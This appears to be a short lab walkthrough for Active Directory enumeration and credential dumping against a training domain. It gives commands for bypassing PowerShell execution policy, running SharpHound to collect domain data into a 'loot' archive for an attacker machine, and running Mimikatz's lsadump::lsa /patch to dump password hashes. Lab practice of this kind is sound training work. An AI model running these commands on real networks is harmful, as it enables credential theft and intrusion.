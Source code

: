 operatingsystem
---------------
Windows Server 2019 Standard
Windows 10 Enterprise Evaluation
Windows 10 Enterprise Evaluation




#### BloodHound

##### BloodHound Installation -

1.) ```apt-get install bloodhound```  

2.) ```neo4j console``` - default credentials -> neo4j:neo4j

##### Getting loot w/ SharpHound -

1.) ```powershell -ep bypass``` same as with PowerView

2.) ```. .\Downloads\SharpHound.ps1```

3.) ```Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip```


4.) Transfer the loot.zip folder to your Attacker Machine

note: you can use scp to transfer the file if you’re using ssh


##### Mapping the network w/ BloodHound -

1.) ```bloodhound``` Run this on your attacker machine not the victim machine

2.) Sign In using the same credentials you set with Neo4j
3.) Import the loot.zip file previously created

note: On some versions of BloodHound the import button does not work to get around this simply drag and drop the loot.zip folder into Bloodhound to import the .json files

4.) To view the graphed network open the menu and select queries this will give you a list of pre-compiled queries to choose from.



#### Mimikatz

##### Dump Hashes w/ mimikatz -

1.) ```cd Downloads && mimikatz.exe``` this will cd into the directory that mimikatz is kept as well as run the mimikatz binary

2.) ```privilege::debug``` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly

3.) ```lsadump::lsa /patch``` Dump those hashes!
